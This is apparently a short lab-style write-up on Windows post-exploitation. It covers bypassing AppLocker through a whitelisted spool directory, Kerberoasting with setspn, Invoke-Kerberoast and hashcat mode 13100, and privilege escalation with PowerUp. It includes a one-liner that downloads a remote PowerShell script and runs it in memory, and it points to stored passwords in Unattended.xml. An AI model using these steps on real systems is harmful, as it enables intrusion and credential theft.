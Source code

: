 # App Locker

> Shahrukh Tramboo | March 14th, 2022

--------------------------------------


There are many ways to bypass AppLocker.

If AppLocker is configured with default AppLocker rules, we can bypass it by placing our executable in the following directory: 
```bash
C:\Windows\System32\spool\drivers\color
```
- This is whitelisted by default. 

**Kerberoasting**

If we run 
```bash
setspn -T medin -Q */*
```
we can extract all accounts in the SPN.

SPN is the Service Principal Name, and is the mapping between service and account.

Now we have seen there is an SPN for a user, we can use Invoke-Kerberoast and get a ticket.

The script is at 

https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1

Then Download it to the target and after writing this code at the end of script
```bash
Invoke-Kerberoast -OutputFormat hashcat
```

Now crach the hash with John the ripper
or hashcat


Lets use hashcat to bruteforce this password. The type of hash we're cracking is 
```bash
Kerberos 5 TGS-REP etype 23 
```
and the hashcat code for this is 13100.

**PrivEsc**

We will run PowerUp.ps1 for the enumeration.

```bash
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1')
```

The script has identified several ways to get Administrator access. The first being to bypassUAC and the second is UnattendedPath. We will be exploiting the UnattendPath way.

"Unattended Setup is the method by which original equipment manufacturers (OEMs), corporations, and other users install Windows NT in unattended mode."

It is also where users passwords are stored in base64. Navigate to C:\Windows\Panther\Unattend\Unattended.xml.





